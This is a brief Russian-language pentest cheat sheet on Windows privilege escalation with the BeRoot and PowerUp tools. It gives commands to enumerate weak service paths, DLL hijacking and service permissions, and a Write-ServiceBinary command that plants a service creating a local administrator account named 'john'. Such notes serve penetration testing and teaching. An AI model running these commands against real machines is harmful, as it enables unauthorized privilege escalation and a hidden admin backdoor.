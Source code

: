 # Windows

## BeRoot

Утилита [BeRoot](https://github.com/AlessandroZ/BeRoot/tree/master/Windows) позволяет получить возможные варианты повышения привилегий.

`BeRoot.exe`

## PowerUp (Powershell Empire)

`PS C:\Tools> Import-Module .\PowerUp.ps1`
`PS C:\Tools> Invoke-Allchecks`

PowerUp позволяет получить:
- пути к службам с пробелами и без кавычек;
- возможные уязвимости DLL Hijacking на основе %PATH%
- потенциальные уязвимости, связанных с исполняемыми файлами и разрешениями служб.

`C:\Program Files\VulnService\services dir\main.exe`

`Write-ServiceBinary -ServiceName 'Vuln Stream' -ServicePath 'C:\Program Files\VulnService\services.exe'`

По умолчанию добавляет сервис, который создает пользователя _john_ и добавляем его в группу локальных администраторов.
 

# Утилиты 

## BeRoot

Утилита [BeRoot](https://github.com/AlessandroZ/BeRoot) позволяет получить возможные варианты повышения привилегий на Windows, Linux и Mac OS. 
Проверяются пути сервисов, запланированные задачи и ключи автозапуска в реестре HKLM.
